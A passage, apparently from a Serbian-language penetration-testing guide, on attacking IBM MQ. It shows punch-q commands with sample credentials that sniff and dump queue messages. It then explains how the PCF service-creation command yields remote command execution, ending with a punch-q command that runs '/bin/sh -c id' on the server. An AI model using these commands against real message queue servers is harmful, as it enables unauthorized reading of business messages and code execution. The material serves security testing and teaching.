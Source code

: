 ## Exploit

### Dumpiranje poruka

Možete ciljati red(ove)/kanal(e) kako biste ih špijunirali i dumpovali poruke iz njih (operacija bez uništavanja). _Primeri:_

```bash
❯ sudo docker run --rm -ti leonjza/punch-q --host 172.17.0.2 --port 1414 --username admin --password passw0rd --channel DEV.ADMIN.SVRCONN messages sniff
```

```bash
❯ sudo docker run --rm -ti leonjza/punch-q --host 172.17.0.2 --port 1414 --username admin --password passw0rd --channel DEV.ADMIN.SVRCONN messages dump
```

**Nemojte se ustručavati da iterirate kroz sve identifikovane redove.**

### Izvršenje koda

> Neke detalje pre nego što nastavimo: IBM MQ se može kontrolisati na više načina: MQSC, PCF, Control Command. Neke opšte liste mogu se pronaći u [IBM MQ dokumentaciji](https://www.ibm.com/docs/en/ibm-mq/9.2?topic=reference-command-sets-comparison). [**PCF**](https://www.ibm.com/docs/en/ibm-mq/9.3?topic=commands-introduction-mq-programmable-command-formats) (_**Programmable Command Formats**_) je ono na čemu se fokusiramo kako bismo interaktovali udaljeno sa instancom. **punch-q** i dalje **pymqi** se baziraju na PCF interakcijama.
>
> Možete pronaći listu PCF komandi:
>
> * [Iz PCF dokumentacije](https://www.ibm.com/docs/en/ibm-mq/9.3?topic=reference-definitions-programmable-command-formats), i
> * [iz konstanti](https://www.ibm.com/docs/en/ibm-mq/9.3?topic=constants-mqcmd-command-codes).
>
> Jedna interesantna komanda je `MQCMD_CREATE_SERVICE` i njena dokumentacija je dostupna [ovde](https://www.ibm.com/docs/en/ibm-mq/9.3?topic=formats-change-copy-create-service-multiplatforms). Kao argument, uzima `StartCommand` koji pokazuje na lokalni program na instanci (primer: `/bin/sh`).
>
> Takođe postoji upozorenje o ovoj komandi u dokumentaciji: _"Pažnja: Ova komanda omogućava korisniku da pokrene proizvoljnu komandu sa mqm ovlašćenjem. Ako su dodeljena prava za korišćenje ove komande, zlonameran ili nepažljiv korisnik može definisati servis koji oštećuje vaš sistem ili podatke, na primer, brisanjem bitnih fajlova."_
>
> _Napomena: uvek prema IBM MQ dokumentaciji (Administrativni referentni materijal), takođe postoji HTTP endpoint na `/admin/action/qmgr/{qmgrName}/mqsc` za pokretanje ekvivalentne MQSC komande za kreiranje servisa (`DEFINE SERVICE`). Ovaj aspekt još uvek nije obuhvaćen ovde._

Kreiranje / brisanje servisa sa PCF za izvršavanje udaljenog programa može se obaviti pomoću **punch-q**:

**Primer 1**

```bash
❯ sudo docker run --rm -ti leonjza/punch-q --host 172.17.0.2 --port 1414 --username admin --password passw0rd --channel DEV.ADMIN.SVRCONN command execute --cmd "/bin/sh" --args "-c id"
```
